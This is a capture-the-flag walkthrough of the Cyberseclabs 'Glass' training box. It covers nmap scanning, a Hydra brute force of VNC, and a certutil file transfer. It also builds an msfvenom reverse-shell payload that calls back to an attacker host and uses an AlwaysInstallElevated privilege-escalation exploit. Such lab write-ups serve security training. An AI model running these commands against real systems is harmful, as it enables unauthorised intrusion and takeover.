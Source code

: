 In this walkthrough, we'll go over a beginner level box called "Glass". Glass is one of the realistic and fun boxes on [Cyberseclabs.co.uk](https://www.cyberseclabs.co.uk).

![Glass IP](glassIP.png)

Let's start the scanning process with nmap:
```bash
nmap -sS -sV -n 172.31.1.25
```
![Glass nmap Scan](glassNmapScan.png)

It looks like SMB and VNC ports are open, let's see if there are known vulnerabilites nmap can catch:
```bash
nmap -p139,445,5800,5900 --script vuln 172.31.1.25
```
After running nmap vuln scan, we receive nothing, but errors. We saw that SMB was open, let's check for null sessions:
```bash
smbclient -L 172.31.1.25 -N
```
![Glass smb](glassSMBNullSession.png)

"Access Denied". There is one option left which is brute forcing VNC. Let's give it a try:
```bash
hydra -s 5900 -P /usr/share/seclists/Passwords/Common-Credentials/best15.txt 172.31.1.25 vnc -V
```
For the dictionary, I am using seclists and since humans are lazy I think the best 15 passwords should be fine for brute forcing. if not, we can try the best110.txt file.

![Glass Bruteforce](glassBruteforce.png)

Wowww, we have a password "password", let's see if we can log into VNC:
```bash
vncviewer 172.31.1.25:5900
```
![Glass VNC](glassVNC.png)

If we open "access" document, we'll see the first flag file. Let's put that into the flags and claim the user level flag:

![Glass User](glassUser.png)

This is great, but we need to be able to capture the root/system flag as well. In order to do that, we need to escalate our privileges. Let's transfer winPEAS over to the Windows machine, but first let's see what the architecture is:

![Glass systeminfo](glassSysteminfo.png)

By using ```python -m SimpleHTTPServer 80``` from the directory that winPEASx64.exe resides, we can then use certutil on our Windows machine to transfer the file:

![Glass PythonServer](glassPythonServer.png)

![Glass Certutil](glassCertUtil.png)

If we look at the output of winPEAS, we'll see that "AlwayInstallElevated set to 1 in HKLM!" and "AlwaysInstallElevated set to 1 in HKCU!". I think we can use a metasploit module to exploit this vulnerability/misconfiguration:

![Glass WinPEAS](glassWinPEAS.png)

In order to use, the metasploit exploit we need to get a sessions in msfconsole so let's create a exe file using msfvenom and upload that to the Windows machine:
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.0.125 LPORT=4500 -f exe -o rTCP.exe
```
![Glass rTCP](glassRTCP.png)

Configure msfconsole:

![Glass Msfconsole rTCP](glassMsfconsoleRTCP.png)

Let's send this shell to the background and configure "alway_install_elevated" exploit in msfconsole:

![Glass AlwayElevated](glassAlwaysElevated.png)

Wohoo, we got a shell as the system:

![Glass SystemShell](glassSystemShell.png)

Let's go to the administrator's desktop and grab the system/root flag:

![Glass SystemFlag](glassSystem.png)

I hope you enjoyed this walkthrough..

Thank you for reading...

[<= Go Back to Cyberseclabs Walkthrouhgs](CyberseclabsWalkthroughs.md)

[<= Go Back to Main Menu](index.md)

